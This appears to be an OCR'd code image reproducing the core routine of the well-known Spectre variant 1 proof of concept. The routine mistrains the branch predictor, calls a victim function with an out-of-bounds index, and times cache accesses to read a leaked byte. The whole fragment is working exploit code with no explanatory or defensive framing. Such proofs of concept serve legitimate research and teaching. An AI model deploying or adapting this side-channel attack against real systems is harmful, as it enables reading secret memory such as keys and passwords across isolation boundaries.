 ```
	size_t training_x, x; 
	register uint64_t time1, time2;
	volatile uint8_t *addr;

	for (i = 0; i < 256; i++) results[i] = 0; 
	for (tries = 999; tries > 0; tries--) {
/* Flush array2[256*(0..255)] from cache */ 
		for (i = 0; i < 256; i++) _mm_clflush(&array2[i * 512]); 
		/* intrinsic for clflush instruction */

		/* 30 loops: 5 training runs (x=training_x) per attack run (x=malicious_x) */ 
		training_x = tries % array1_size; 
		for (j = 29; j >= 0; j--) {

			_mm_clflush(&array1_size); 
			for (volatile int z = 0; z < 100; z++) {} 
			/* Delay (can also mfence) */

			/* Bit twiddling to set x=training_x if j%6!=0 or malicious_x if j%6==0 */ 
			/* Avoid jumps in case those tip off the branch predictor */ 
			x = ((j % 6) - 1) & ~0xFFFF; 
			/* Set x=FFF.FF0000 if j%6==0, else x=0 */ 
			x = (x | (x >> 16)); 
			/* Set x=-1 if j&6=0, else x=0 */ 
			x = training_x ^ (x & (malicious_x ^ training_x));

			/* Call the victim! */ 
			victim_function(x);
		}
		/* Time reads. Order is lightly mixed up to prevent stride prediction */ 
		for (i = 0; i < 256; i++) {
			mix_i = ((i * 167) + 13) & 255; 
			addr = &array2[mix_i * 512]; 
			time1 = __rdtscp(&junk); /* READ TIMER */ 
			junk = *addr; /* MEMORY ACCESS TO TIME */
			time2 = __rdtscp(&junk) - time1; /* READ TIMER & COMPUTE ELAPSED TIME */ 
			if (time2 <= CACHE_HIT_THRESHOLD && mix_i != array1[tries % array1_size]) 
				results[mix_i]++; /* cache hit - add +1 to score for this value */

		}

		/* Locate highest & second-highest results results tallies in j/k */ 
		j = k = -1; 
		for (i = 0; i < 256; i++) { 
			if (j < 0 || results[i] >= results[j]) {
				k = j; j = i; 
			} 
			else if (k < 0 || results[i] >= results[k]) {
				k = i; 
				} 
		} 
		if (results[j] >= (2 * results[k] + 5) || (results[j] == 2 && results[k] == 0)) 
			break; /* Clear success if best is > 2*runner-up + 5 or 2/0) */

	} 
	results[0] ^= junk; /* use junk so code above won’t get optimized out*/ 
	value[0] = (uint8_t)j; 
	score[0] = results[j]; 
	value[1] = (uint8_t)k; 
	score[1] = results[k];

}

```